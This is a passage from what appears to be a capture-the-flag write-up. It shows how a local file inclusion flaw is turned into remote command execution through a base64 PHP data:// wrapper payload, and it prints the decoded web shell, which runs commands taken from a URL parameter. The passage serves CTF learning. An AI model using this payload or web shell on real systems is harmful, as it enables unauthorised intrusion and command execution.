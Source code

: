```
Jackpot! we have local file inclusion vulnerability on the machine, which means that we can read any file on this system.
At this point I will spare you all the troubles I went through to find what to do next and skip to the solution,
we can use PayloadAllTheThing, A great github repository linked below for finding web payloads, and search for a payload
which works for us, I eventually used the data:// wrapper which posts data to the server side and injects our PHP code,
I used the following payload which let us run commands in the server:

 data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=**your command**

 the payloads injects the following code to the server in base64 format:
```

```php
<?php system($_GET['cmd']);echo 'Shell done !'; ?>
```
```
Which executes in the systems the value of the cmd variable  and echoes 'Shell done'.
by using the ls command we get the following:
```
![](assets//images//file_viewer_4.png)

```
We see we have a strange directory our current directory when use ls in the folder we get:
```